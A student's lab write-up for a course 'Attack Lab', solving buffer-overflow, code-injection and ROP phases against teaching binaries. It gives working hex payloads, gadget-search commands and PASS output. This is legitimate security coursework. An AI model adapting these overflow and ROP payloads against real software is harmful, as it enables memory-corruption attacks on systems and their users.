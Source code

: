 CSCI 3160 Attack Lab Writeup
Jacob Hebert, Target 417

# Phase 1
We completed the first phase as a class, this involved finding the correct memory address to exploit and sending a string the same size as the buffer to corrupt it. Doing this would corrupt the stack and crash the program. We achieved this by looking at the assembly dump of the file and determining not only the correct address, but also the correct size for the attack string. We did this by examining the `touch1` function and the `getbuf` function, both of which provided enough information for us to make the attack. My buffer was 0x18 or 24 bytes in size, so I filled the buffer with 24 bytes of zeros and completed the first phase.

# Phase 3
Phase 2 required us to inject some code into the program by overflowing the buffer and setting the program to a specific point in the code, into touch2. We then had to figure out the kind of injection needed. The first thing I did, after writing phase1’s section was realize that the buffer overflow was the same for all phases requiring ctarget, since that’s the only input that we have in the program. I created the level2 file and pasted the buffer overflow bytes  in, and picked a spot in `touch2` to start from, and I got a “Misfire!”. At least I was in the right spot!

Cookie: 0x23f306d5

Type string:Misfire: You called touch2(0x00406520)

I started by trying to follow the hints, which led me to find assembly code to inject the cookie right before the return statement in the `getbuf` function, then using the next part of the injection to put the code in the right address space for touch2 to take over. I realized quickly that I was getting nowhere with the assembly injection because I wasn’t able to get the program to run without immediately seg faulting. So I rethought my ideas and tried to reformat my attack file to actually follow the hints. 
The first part of phase 2 took me about 2 hours to realize I hit a dead end.

My friend Deep gave me some insight on how to actually complete this part of the lab, which was really simple in hindsight:

    1. Find the return address of getbuf
    2. Find the return address of touch2
    3. Inject code in the buffer to alter the value of %rdi

The cookie was the value to inject, and a movq asm command made the most sense, so
    `movq $0x23f306d5, %rdi`

I needed to translate this from text to the binary form, so running
    `as ctarget_l2_inject.s -o ctarget_l2_inject.o`
generated the needed output, which when objdumped gave:
    `48 c7 c7 d5 06 f3 23`
    `c3` is retq in asm, so that would be at the 8th byte.


    (gdb) until *0x401daa
    gdb) x/s $rsp
    (Address of register) 0x5551fa10:

Injection script:

> ```C
>/* Injection string */
>/* First 8 bytes are movq to rsi, rest to overflow getbuf */
>
>48 c7 c7 d5 06 f3 23 c3
>00 00 00 00 00 00 00 00
>00 00 00 00 00 00 00 00
>
>
>/* 0x5551fa10 = ret addr for getbuf */
>10 fa 51 55 00 00 00 00
>
>
>
>/* Address of touch2 */
>f4 1d 40 00 00 00 00 00
```

At first the injection caused a seg fault, but it was likely caused by comments, because shortly after, I ran it again and it passed
    ```bash
        ./hex2raw < ctarget.lv2 | ./ctarget
        Cookie: 0x23f306d5
        Type string:Touch2!: You called touch2(0x23f306d5)
        Valid solution for level 2 with target ctarget
        PASS

    ```


# Phase 3

I needed to pass the cookie as a string -- so I need to translate the hex cookie to a set of ascii characters


1. We need to inject the cookie into the return address of touch3

Need to use a movq instruction to move the location of the cookie to the register at the time needed
Add 0x28 to account for buffer and size of rsp and touch3. 0x18 for the buffer, 0x8 for rsp, and 0x8 for touch3.

The new memory address is: 0x5551fa10 + 0x28 = **0x5551fa38**. This gets injected in the first line of the buffer overflow.


2. add the return address for getbuf
    `10 fa 51 55 00 00 00 00`

3. ret address for touch3
    `11 1f 40 00 00 00 00 00`

4. Translate hex to ASCII
    `32 33 66 33 30 36 64 35 00` *plus an extra byte of zeroes*

    Script:

>    ```c
>   /* movq cookie location -> rdi and retq */
>   /* 10 fa 51 55 */
>   /* 0x5551fa10 + 0x28 = 0x5551fa38 */
>
>
>   48 c7 c7 38 fa 51 55 c3
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>
>   /* retaddr of getbuf */
>   10 fa 51 55 00 00 00 00
>
>   /* retaddr of touch3 */
>   /* 0x401f11          */
>
>   11 1f 40 00 00 00 00 00
>
>   /* Hex translation of cookie */
>   32 33 66 33 30 36 64 35 00

    ```

```bash
    Cookie: 0x23f306d5
    Type string:Touch3!: You called touch3("23f306d5")
    Valid solution for level 3 with target ctarget
    PASS
    ```
With Deep's help, this took me about half an hour to complete.


# Phase 4

ROP is hard...
The first thing I did was find the gadget farm in the address space.
```bash
    objdump -d rtarget | sed -n '/start_farm/,/end_farm/p' >> farm.dump
```
This finds the entire codespace from the start to the end of the farm

Using the farm, I made some grep statements to find the patterns that I needed for execution

    /* popq %rdi , 5f */
    /* popq %rax, 58 -> setval_269 */
    /* c4 = c7, 2 more places is 58 */

I started with these, I grepped to a spot that would have 5f or 58, for me, setval_269 had the value I needed,
it was located at c4, but 2 bytes into the address, so I had to add 2 to my inject, starting at c6.
That popped %rax from the stack.

I used that to put the cookie on the stack.

    /* movq rdi rax */
    /* cat farm.dump | grep -E "48 89 .. c3"  */
I didn't know the exact 3rd byte to look for, so I used extended regex to find it somewhere in the farm, which resulted in:
    ```bash
         401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax
    ```
The start of the string I wanted was one byte in, so I added 1 to the address, making my address: `d0 1f 40 00 00 00 00 00`

The last thing was to inject the return address of touch2, which was already in ctarget.lv2, so I just copy/pasted that.

ROP Attack:

>   /* Cookie: 0x23f306d5 */
>
>   /* Fill buffer to 24 bytes */
>
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   00 00 00 00 00 00 00 00
>   /* popq %rdi , 5f */
>   /* popq %rax, 58 -> setval_269 */
>   /* c4 = c7, 2 more places is 58 */
>   c6 1f 40 00 00 00 00 00
>
>   /* cookie */
>   d5 06 f3 23 00 00 00 00
>
>   /* movq rdi rax */
>   /* cat farm.dump | grep -E "48 89 .. c3"  */
>
>   /* 401fcf:       b8 48 89 c7 c3          mov    $0xc3c78948,%eax */
>
>   d0 1f 40 00 00 00 00 00
>
>   /* Ret addr of touch2 */
>
>   f4 1d 40 00 00 00 00 00



```bash
    Cookie: 0x23f306d5
    Type string:Touch2!: You called touch2(0x23f306d5)
    Valid solution for level 2 with target rtarget
    PASS


    ```


Deep helped me significantly with this lab. Without him, I would not have been able to get to phase 4.
